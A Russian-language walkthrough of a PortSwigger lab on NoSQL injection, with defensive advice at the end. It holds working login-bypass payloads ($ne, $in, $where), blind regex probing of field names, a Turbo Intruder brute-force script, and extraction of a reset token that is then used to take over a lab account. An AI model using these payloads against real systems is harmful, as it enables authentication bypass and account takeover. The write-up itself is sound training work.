




лаба https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields
#### Использование внедрения оператора NoSQL для извлечения неизвестных полей

задание:
войдите в систему как `carlos`

------------

вот запрос входа в аккаунт 
пароль я не знаю!

```http
POST /login HTTP/2
Host: 0a4d008c0372faac83ad193b002b0044.web-security-academy.net
Cookie: session=E4ZyBicNK0ac6blOxjTH7H1P50x3OznW
Content-Length: 42
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a4d008c0372faac83ad193b002b0044.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4d008c0372faac83ad193b002b0044.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
"username":"carlos",
"password":"montoya"
}

```

-----

если делаю так
```http
{"username":"carlos","$ne":"montoya"}
```
то ответ 400 "Missing parameter: 'password'"

-----

ввожу  один из пейлоадов для обхода авторизации из [[0_NoSQLi_theory]]

`{"username": {"$in": ["carlos", "root", "superadmin"]}, "password": {"$ne": ""}}`

ответ 200
```html
<p class=is-warning>Account locked: please reset your password</p>
```

------
 короч - это подсказка - что нужно сменить пароль

---
 но в интерфейсе - я могу сменить только емайл

------

долго не мог решить эту лабу..

отправляю
```json
{"username":"carlos","password":{"$ne":"password"}, "$where": "0"}
```
ответ 200  - Invalid username or password -

**`{"$ne":"password"}`** — это оператор MongoDB. `$ne` значит not equal. мы говорим базе: "найди пользователя carlos, у которого пароль **не равен**'password'"

**`"$where": "0"`** — это специальное поле, которое выполняет JavaScript код
`"0"`в js это false

когда `$where` равен false, запрос не находит пользователя, поэтому ты получаешь "Invalid username or password"

-------

теперь меняю 0 на 1 
```json
{"username":"carlos","password":{"$ne":"password"}, "$where": "1"}
```
ответ 200 но Account locked: please reset your password

`$where` выполняется !!!! значит я могу сюда подставлять пробовать любые json

-----


пробую угадать  первое поле в документе карлос
проверю - начинается ли название второго поля в документе carlos с буквы a


```json
❌❌❌ вот это неверный пейлоад {"username":"carlos","password":{"$ne":"password"}, "$where":"Object.keys(this)[1].match('^a.*')"} - ❌❌❌ вот это неверный пейлоад

из=за него я тупил  в муках,так как я тупо ставил точки вот тут ^a. - из-за этого получал неполные значения , так как точка заменяла букву , и вот чуть ниже уже верный и правильный запрос!
```
ответ 200 Invalid username or password - значит а не подходит, 
если бы подошло - то был бы ответ Account locked


проверю число букв в паждо параметре
```json

{"username":"carlos","password":{"$ne":"password"}, "$where":"Object.keys(this)[4].length == 9"}
```
для [0]  - 3 букв
для [1]  - 8 букв
для [2]  - 8 букв
для [3]  - 5 букв
для [4]  - 9 букв

теперь буду посимвольно извлекать названия каждый буквы из каждого параметра


этот запрос ищет побукверно в нужном индексе!
```json
{"username":"carlos","password":{"$ne":"password"}, "$where":"Object.keys(this)[4].match('^a')"}


----

вот так вот

{"username":"carlos","password":{"$ne":"password"}, "$where":"Object.keys(this)[4].match('^a')"}

{"username":"carlos","password":{"$ne":"password"}, "$where":"Object.keys(this)[4].match('^ab')"}

{"username":"carlos","password":{"$ne":"password"}, "$where":"Object.keys(this)[4].match('^abc')"}

{"username":"carlos","password":{"$ne":"password"}, "$where":"Object.keys(this)[4].match('^abcd')"}

и так далее подбирать буквы
```

-----
запусаю турбо интрудер и проверю посимвольно каждую букву для каждой позиции [1]!

```http
POST /login HTTP/2
Host: 0a4d008c0372faac83ad193b002b0044.web-security-academy.net
Cookie: session=E4ZyBicNK0ac6blOxjTH7H1P50x3OznW
Content-Length: 98
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a4d008c0372faac83ad193b002b0044.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4d008c0372faac83ad193b002b0044.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"username":"carlos","password":{"$ne":"password"}, "$where":"Object.keys(this)[1].match('^a.*')"}

```
перебираю все позиции
```python
import random
import time
try:
    from urllib.parse import quote
except ImportError:
    from urllib import quote

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                          concurrentConnections=10,
                          requestsPerConnection=100,
                          pipeline=False)
    
    # ==== ГЛАВНОЕ ИЗМЕНЕНИЕ: r перед кавычками ====
    payloads_raw = r"""

0
1
2
3
4
5
6
7
8
9
a
b
c
d
e
f
g
h
i
j
k
l
m
n
o
p
q
r
s
t
u
v
w
x
y
z
A
B
C
D
E
F
G
H
I
J
K
L
M
N
O
P
Q
R
S
T
U
V
W
X
Y
Z

"""
    # ==== КОНЕЦ ИЗМЕНЕНИЯ ====

    # Разбираем сырой текст в список
    # Добавляем обработку ошибок кодировки
    payloads = []
    for line in payloads_raw.split('\n'):
        line = line.strip()
        if line:
            # ==== ЕЩЁ ОДНА ЗАЩИТА ====
            # Принудительно перекодируем в utf-8, игнорируя ошибки
            try:
                # Пробуем просто взять строку как есть
                payloads.append(line)
            except UnicodeDecodeError:
                # Если что-то пошло не так, игнорируем проблемные символы
                line = line.encode('utf-8', errors='ignore').decode('utf-8')
                payloads.append(line)
            except:
                # Если совсем всё плохо, пропускаем строку
                pass
    
    # Если список пейлоадов пустой, добавляем тестовый, чтобы скрипт не сломался
    if not payloads:
        payloads = ["test"]
    
    requests = []
    for payload in payloads:
        # Твой код вставки пейлоада в запрос
        final_request = target.req.replace('%s', payload)
        requests.append(final_request)
    
    min_delay = 50
    max_delay = 200
    
    for request in requests:
        engine.queue(request)
        if random.random() > 0.1:
            delay = random.randint(min_delay, max_delay)
            time.sleep(delay / 1000.0)

def handleResponse(req, interesting):
    if interesting:
        req.label = "INTER"
        table.add(req)
    elif req.status == 500:
        response_text = req.response.lower()
        sql_indicators = ['sql', 'syntax', 'mysql', 'database', 'error', 'exception', 'warning']
        if any(indicator in response_text for indicator in sql_indicators):
            req.label = "POTENTIAL SQLi"
            table.add(req)
```

результат подбора для индекса [0]:  `_id`

результат подбора для индекса [1]:  `username`

результат подбора для индекса [2]:  password`
`
результат подбора для индекса [3]:  `email`

результат подбора для индекса [4]:  `forgotPwd     `

результат подбора для индекса [5]:  нет полей!

-----

проверяю параметр
```http
GET /forgot-password?forgotPwd=xxxx HTTP/2
Host: 0a3d00ca032788e088eb436100ad00cf.web-security-academy.net
Cookie: session=M2u7fpylrrvvevIVuT9tZPOjiVMj2E3a
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3d00ca032788e088eb436100ad00cf.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```
ответ
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 15

"Invalid token"
```
400 потому что вместо forgotPwd там значение xxx

-------

теперь нужно вытащить это значение!

узнаю длинну токена
```json
{"username":"carlos","password":{"$ne":"password"}, "$where":"this.forgotPwd.length == 10"}
```

отлично - ответ ак заблочен - значит - я попал!
иттого 16 символов!!!!!




------

теперь поштучно вытащу это значание:

```json
{"username":"carlos","password":{"$ne":"password"}, "$where":"this.forgotPwd[0] == 'a'"}
```

также через туррбо интрудер




вытаскиваю значение: 

`  19e406804529e2e5   `  16 символов
--

отправляю запрос
```http
GET /forgot-password?forgotPwd=19e406804529e2e5 HTTP/2
Host: 0a3d00ca032788e088eb436100ad00cf.web-security-academy.net
Cookie: session=M2u7fpylrrvvevIVuT9tZPOjiVMj2E3a
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3d00ca032788e088eb436100ad00cf.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

и вот вижу форму сброса - смены пароля для карлоса

```
https://0a3d00ca032788e088eb436100ad00cf.web-security-academy.net/forgot-password?forgotPwd=19e406804529e2e5
```




заполняю формы и отпр запрос смены пароля
```http
POST /forgot-password?forgotPwd=19e406804529e2e5 HTTP/2
Host: 0a3d00ca032788e088eb436100ad00cf.web-security-academy.net
Cookie: session=M2u7fpylrrvvevIVuT9tZPOjiVMj2E3a
Content-Length: 106
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a3d00ca032788e088eb436100ad00cf.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3d00ca032788e088eb436100ad00cf.web-security-academy.net/forgot-password?forgotPwd=19e406804529e2e5
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=QwaHmXUaXa2sRtzFpqVldAWft4rtV8fp&forgotPwd=19e406804529e2e5&new-password-1=12345&new-password-2=12345
```

вхожу в аккаунт - и вуаля, не прошло и 4 часов мук ада для меня - и самая легкая лаба решена...




--------


# ЗАЩИТА ОТ NoSQL ИНЪЕКЦИЙ

#### ВАЛИДАЦИЯ ВХОДНЫХ ДАННЫХ

проверяй тип данных если ждешь строку — убедись что это строка а не объект с операторами типа `$ne` или `$where`

#### НЕ ДОВЕРЯЙ ПОЛЬЗОВАТЕЛЬСКОМУ ВВОДУ В `$WHERE`

`$where` выполняет произвольный js код — никогда не вставляй туда данные от юзера без жесткой санитизации

#### ИСПОЛЬЗУЙ ПАРАМЕТРИЗОВАННЫЕ ЗАПРОСЫ

в mongodb есть безопасные методы типа `find()` с явными полями вместо конкатенации строк

#### БЕЛЫЙ СПИСОК ОПЕРАТОРОВ

если клиент может передавать операторы типа `$ne` — проверяй что разрешены только нужные и в нужных местах

#### ОГРАНИЧЕНИЕ ПРАВ

у юзера базы должны быть минимальные права — только на чтение нужных коллекций без доступа к системным командам

#### ЛОГИРОВАНИЕ И МОНИТОРИНГ

отлавливай подозрительные запросы с операторами в неожиданных местах

#### ОБНОВЛЕНИЕ ДРАЙВЕРОВ

старые версии драйверов могут хуже обрабатывать инъекции